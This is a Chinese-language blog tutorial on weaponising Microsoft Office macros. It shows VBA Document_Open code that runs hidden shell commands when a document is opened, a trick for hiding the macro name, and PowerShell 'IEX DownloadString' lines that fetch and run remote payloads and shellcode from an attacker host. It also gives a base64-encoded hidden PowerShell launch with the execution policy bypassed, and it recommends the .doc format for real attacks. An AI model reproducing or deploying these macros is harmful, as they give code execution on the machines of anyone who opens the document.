 ```yaml
---
title: "Office 宏的利用"
date: 2019-07-30T00:00:00+08:00
draft: false
tags: ["windows",'office']
categories: ["漏洞复现"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


在 Office 中宏指对文档样式, 字体, 排版, 格式修改等一系列操作的统称, 通过 VBA 来完成.

<!--more-->

## 文件格式

以 Word 举例, 一般分为三种格式 `.doc`, `.docx`, `.docm`. 其中 `.doc` 可保存带有宏的文档, 而 `.docx` 不能保存, 使用`.docm` 保存带宏文档时会在文件图标上添加提示宏的标志. 但对于任意文档, 都会有宏的安全警告.

在实战中, 一般使用 `.doc` 格式.

## 隐藏宏名

在当前文档中创建新宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151239.png)

在 `Project - Microsoft Word 对象 - ThisDocument` 中编辑宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151342.png)

代码如下.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "cmd.exe /c whoami > C:\windows\Temp\test.txt"
    Call Shell(cmd, vbHide)
End Sub
```

`Document_Open` 指在文档被打开时调用的函数.

删除刚刚创建的宏.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151722.png)

完成后如下图.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190730151830.png)

保存文件, 选择 `.doc` 格式.

## 反弹 Shell

基本的命令执行.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "cmd.exe /c whoami > C:\windows\Temp\test.txt"
    Call Shell(cmd, vbHide)
End Sub
```

powershell 执行.

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/payload.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Shellcode.ps1')
Invoke-Shellcode -Shellcode $buf
```

base64 编码.

```
Private Sub Document_Open()
    Dim cmd
    cmd = "powershell.exe -nop -w hidden -ep bypass -enc aQBmACgAWwBJAG4AdABQAHQAc......"
    Call Shell(cmd, vbHide)
End Sub
```

其余方式可看 msfvenom 中的 vba, vba-exe 等格式, 在此不再赘述.

注意 `-ep bypass` 设置执行策略.